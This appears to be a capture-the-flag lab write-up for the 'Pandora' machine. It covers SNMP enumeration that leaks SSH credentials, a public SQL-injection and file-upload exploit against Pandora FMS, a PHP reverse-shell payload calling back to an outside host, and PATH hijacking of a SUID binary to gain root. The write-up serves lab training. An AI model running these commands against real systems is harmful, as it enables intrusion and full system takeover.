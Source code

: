 # Pandora
**OS**: Linux
**Difficulty**: Easy

## Enumeration:
I'll start with a port scan.
```bash
nmap -sC -p- 10.129.19.198

22/tcp open  ssh
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http
|_http-title: Play | Landing
```

I'll start by taking a look at the HTTP server.

![img1](images/img_00001.png)

We can see a domain is mentioned. I'll add it to my hosts file.

I'll also run an UDP port scan.
```bash
sudo nmap -sU panda.htb

PORT    STATE SERVICE
161/udp open  snmp
```

I'll use snmpwalk to enumerate this port.
```bash
snmpwalk -v 2c -c public panda.htb >snmp.output
```

## Foothold:
Examining the strings, I found some credentials.
```bash
iso.3.6.1.2.1.25.4.2.1.5.1145 = STRING: "-u daniel -p HotelBabylon23"
```

I'll use those for the ssh service.
```bash
ssh daniel@panda.htb 
HotelBabylon23
```

There is another user on the target, called matt.

After some enumeration I found out about the pandora.panda.htb vhost in "/etc/apache2/sites-available/pandora.conf"
```
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
```

Port forwarding:
```bash
ssh -L 8000:localhost:80 daniel@pandora.htb
```

And now we can access the console.

![img2](images/img_00000.png)

## Lateral Movement: 
We can search for the version of pandora FMS. This reveals several vulnerabilities. I found a [POC](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py) that exploits an SQL injection and FILE Upload vulnerability that leads to an RCE.

```bash
python3 sqlpwn.py -t pandora.panda.htb:8000 
```

I also modified the command being executed to:
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.111/6666 0>&1'");
```

And now we have a shell as the user Matt.

## Privilege Escalation:

Running "sudo -l" reveals something interesting.
```bash
/usr/bin/sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```

There is a policy plugin used on the system. Running "ls /etc/apparmor.d/*" confirms the existence of AppArmor on the target.

Further enumeration reveals that "/usr/bin/pandora_backup" has the SUID flag set.
```bash
find / -perm -u=s -type f 2>/dev/null  

/usr/bin/pandora_backup
```

After transferring the file on my machine I used strings on the binary. And got something interesting.
```bash
PandoraFMS Backup Utility                                                                                                                         
Now attempting to backup PandoraFMS client                                                                                                        
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*  
```

So it's most likely a command execution. We can see there is a PATH injection vulnerability.
So we can replace the tar binary with a bash binary. 
```bash
echo "/bin/bash" > /var/tmp/tar
chmod +x /var/tmp/tar
export PATH=/var/tmp:$PATH
/usr/bin/pandora_backup


root@pandora:~# id
uid=0(root) gid=1000(matt) groups=1000(matt)
```